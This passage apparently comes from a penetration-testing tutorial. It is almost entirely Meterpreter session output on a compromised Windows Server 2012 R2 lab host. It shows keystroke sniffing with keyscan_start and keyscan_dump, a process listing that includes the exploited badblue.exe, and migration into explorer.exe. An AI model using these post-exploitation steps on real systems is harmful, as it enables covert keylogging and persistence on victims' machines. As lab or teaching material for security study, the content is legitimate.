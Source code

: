 ```
meterpreter > keyscan_dump
Dumping captured keystrokes...


```

```
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

PowerShell:

```
PS C:\Users\Administrator> ipconfig
```

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
ipconfig<CR>
```

或者

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                           Path
 ---   ----  ----                  ----  -------  ----                           ----
 2536  2528  explorer.exe          x64   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\explorer.exe
 2920  2536  badblue.exe           x86   1        WIN-OMCNBKR66MN\Administrator  C:\Program Files (x86)\BadBlue\EE\badblue.exe
```

```
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > migrate 2536
[*] Migrating from 2920 to 2536...
[*] Migration completed successfully.
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

```